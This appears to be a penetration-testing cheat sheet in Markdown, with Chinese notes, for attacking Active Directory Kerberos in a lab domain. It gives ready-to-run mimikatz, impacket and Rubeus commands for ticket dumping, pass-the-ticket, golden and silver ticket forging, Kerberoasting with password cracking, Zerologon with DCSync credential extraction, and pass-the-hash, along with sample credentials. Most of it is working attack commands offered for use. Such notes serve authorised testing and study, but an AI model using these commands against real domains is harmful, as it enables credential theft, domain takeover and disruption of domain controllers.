

Kerberos
===
🔙 [MENU README](./AD.md#penetration)




# Export Kerberos Tickets
Environment
```bash
# 2019 DC 

klist  
# TGT
# 1. 第一張一定是TGT
# 2. Server : krbtgt (由krbtgt這個帳號簽出來的)

# TGST
# 1. Host  : TGST
```
mimikatz
```bash
# https://github.com/gentilkiwi/mimikatz/releases
mimikatz

privilege::debug

sekurlsa::tickets /export
```
```
@之前的是帳號
krbtgt的是GoldenTicket
```

# Pass The Ticket
```
Windows + R : \\ADWin\c$
Copy mimikatz x64 票券過去

# Win Ad
Change Local Administrator Password
並重新登入Local Administrator

dir \\server2019.lpt.com\admin$ #驗證不會通過
cd 到剛剛複製的mimikatz x64資料夾
```
```bash
mimikatz #進入mimikatz

# 找到Administrator@krbtgt那張票匯入
kerberos::ptt "*.kirbi"

# 查看匯入的票券
kerberos::list
misc::cmd
klist

# 測試已經可以touch到AD
dir \\server2019.lpt.com\admin$

# 清除匯入的票據
kerberos::purge
```

# Golden Ticket Attack (TGT)
> 拿到DC的krbtgt帳號後，想幹嘛就幹嘛

Hashdump
```bash
# parrot
impacket-secretsdump 'administrator:Pa$$w0rd'@192.168.177.19

# 可以拿到SAM、krbtgt account
```
Domain SID
```bash
# parrot
python3 /opt/impacket/examples/lookupsid.py 'administrator:Pa$$w0rd'@192.168.177.19 0

# 取得Domain SID
```
Gen Golden Ticket
```bash
python3 /opt/impacket/examples/ticketer.py -nthash <ntlm_hash> -domain-sid <sid> -domain lpt.com evil

# nthash : krbtgt的後面那段
# evil 為帳號名稱
# 舊的Golden Ticket可以把票券發給一個不存在的帳號
# 後來上Patch後就不行這樣搞了
```
掛載票券
```bash
# Linux票券掛在環境變數KRB5CCNAME裡面
export KRB5CCNAME=~/evil.ccache
```
處理名稱解析的問題
```bash
cat /etc/hosts
echo 192.168.177.19 server2019.lpt.com | sudo tee -a /etc/hosts
```
Golden Ticket
```bash
psexec.py lpt.com/evil@server2019.lpt.com -k -no-pass -dc-ip 192.168.177.19
```

# Kerberoasting
用來攻擊Kerberoas運作的手法
```
什麼時候才會用到Kerberoas驗證方法?
1. 你的服務本來就指令Kerberoas驗證
2. 你的服務註冊在AD之中

所以當你的服務沒有指定Kerberoas也沒有註冊在AD之中，就得走NTLM
```
Kerberoasting
```
1. Attcker通過LDAP先去查詢AD中有註冊哪些服務
2. 去做服務的存取，把Kerberoas流程run過一遍
3. Attacker會拿到TGST
4. Kerberoasting在於去破解TGST的帳號密碼
    Service Account
    Service Password
5. 破解完後
    可以操作服務帳號(服務帳號通常是特權帳號)
    或者去玩Sliver Ticket
```
Build Enviroment
```bash
# 2019DC
# Register service in AD
setspn -s $ServiceName/lpt.com $UserName
setspn -s http/lpt.com user-one  # 必須是DC內本來就存在的帳號
```
Kerberoasting in Linux
```bash
# Parrot
echo 192.168.177.19 server2019.lpt.com | sudo tee -a /etc/hosts
# SPN scan : LDAP服務查詢
GetUserSPNs.py 'lpt.com/cpent:Pa$$w0rd' -dc-ip 192.168.177.19
# Request
GetUserSPNs.py 'lpt.com/cpent:Pa$$w0rd' -dc-ip 192.168.177.19 -request -outputfile kerberoast.txt
# 破解
john kerberoast.txt
```
Kerberoasting in Windows
```bash
# AD Win 用一般或本地使用者
lpt\cpent


# Rubeus
# 專案中沒有執行檔，但你可去搜尋rubeus precompiled
# https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe


# SPN scan : LDAP服務查詢
# Domain
Rubeus.exe kerberoast /domain:lpt.com
# Local 
Rubeus kerberoast /domain:lpt.com /creduser:lpt.com\cpent /credpassword:Pa$$w0rd


```

# Zerologon
```
工程師在寫加密程式時將金鑰全部設定為0所以叫做Zerologon
所以可以利用這個漏洞在沒有密碼的情況下登入DC拿到最高權限
Zerlogon完後會發動一個攻擊:DCSync，是AD的一個指令
DCSync是給系統用的，用於DC與DC之間的application

若拿到krbtgt => PtT
若拿到Admin  => PtH

ZeroLogon會把Computer Account上的密碼給Reset掉
很容易讓AD不穩，可以用postzerologon止血，但未必有用
```
Zerologon
```bash
# AD Win
# Local Admin可以改一下密碼效果比較好
# mimikatz需要用新版的

mimikatz

# Zerologon
lsadump::Zerologon /target:192.168.177.19 /account:server2019$ /null /ntlm /exploit


# dcsync
# Sync Administrator
lsadump::dcsync /authdomain:lpt /authuser:server2019$ /authpassword:"" /authntlm /domain:lpt.com /dc:server2019 /user:administrator
# Sync krbtgt
lsadump::dcsync /authdomain:lpt /authuser:server2019$ /authpassword:"" /authntlm /domain:lpt.com /dc:server2019 /user:krbtgt

# 幫DC止血
lsadump::postzerologon /target:192.168.177.19 /account:server2019$
```
Pass The Hash
```bash
# mimikatz
privilege::debug
sekurlsa::pth /user:Administrator /domain:lpt.com /ntlm:<HASH>
```
Pass The Ticket
```bash
kerberos::golden /domain:lpt.com /sid:<SID> /krbtgt:<HASH> /user:evil /ptt

kerberos::list

misc::cmd
klist
klist add_bind lpt.com server2019.lpt.com

> OR 
kerberos::golden /domain:lpt.com /sid:<SID> /krbtgt:<HASH> /user:evil /ticket:evil.tck
```


---

# Sliver Ticket Attack (TGST) 
```
使用服務帳戶或機器帳戶建立白銀票
據以存取特定的服務，從而擴大成果
```
On Linux
```bash
python ticketer.py -nthash <HASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN> -spn <SERVICE_PRINCIPAL_NAME> <USER>

export KRB5CCNAME=/root/impacket-examples/<TICKET_NAME>.ccache 

python psexec.py <DOMAIN>/<USER>@<TARGET> -k -no-pass
```
On Windows
```bash
# Create the ticket
mimikatz.exe "kerberos::golden /domain:<DOMAIN> /sid:<DOMAIN_SID> /rc4:<HASH> /user:<USER> /service:<SERVICE> /target:<TARGET>"

# Inject the ticket
mimikatz.exe "kerberos::ptt <TICKET_FILE>"
.\Rubeus.exe ptt /ticket:<TICKET_FILE>

# Obtain a shell
.\PsExec.exe -accepteula \\<TARGET> cmd
```